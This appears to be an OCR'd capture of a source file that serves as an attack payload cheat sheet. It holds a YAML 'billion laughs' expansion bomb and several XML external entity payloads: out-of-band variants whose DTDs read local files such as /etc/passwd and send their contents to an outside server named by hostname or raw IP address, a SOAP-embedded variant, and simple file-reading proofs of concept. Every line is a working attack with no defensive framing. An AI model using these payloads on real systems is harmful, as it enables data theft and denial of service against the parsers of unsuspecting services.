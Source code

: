             # Yaml attack
            
            a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
            b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
            c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
            d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
            e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
            f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
            g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
            h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
            i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
            
            # XXE OOB Attack (Yunusov, 2013)
            
            <?xml version="1.0" encoding="utf-8"?>
            <!DOCTYPE data SYSTEM "http://publicServer.com/parameterEntity_oob.dtd">
            <data>&send;</data>
            
            File stored on http://publicServer.com/parameterEntity_oob.dtd
            <!ENTITY % file SYSTEM "file:///sys/power/image_size">
            <!ENTITY % all "<!ENTITY send SYSTEM 'http://publicServer.com/?%file;'>">
            %all;
            
            # XXE OOB with DTD and PHP filter
            
            <?xml version="1.0" ?>
            <!DOCTYPE r [
            <!ELEMENT r ANY >
            <!ENTITY % sp SYSTEM "http://92.222.81.2/dtd.xml">
            %sp;
            %param1;
            ]>
            <r>&exfil;</r>
            
            File stored on http://92.222.81.2/dtd.xml
            <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
            <!ENTITY % param1 "<!ENTITY exfil SYSTEM 'http://92.222.81.2/dtd.xml?%data;'>">
            
            # XXE Inside SOAP
            
            <soap:Body><foo><![CDATA[<!DOCTYPE doc [<!ENTITY % dtd SYSTEM "http://x.x.x.x:22/"> %dtd;]><xxx/>]]></foo></soap:Body>
            
            # XXE PoC
            
            <!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
            <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [ <!ENTITY xxe_test SYSTEM "file:///etc/passwd"> ]><x>&xxe_test;</x>
            <?xml version="1.0" encoding="ISO-8859-1"?><!DOCTYPE xxe_test [<!ELEMENT foo ANY><!ENTITY xxe_test SYSTEM "file:///etc/passwd">]><foo>&xxe_test;</foo>
            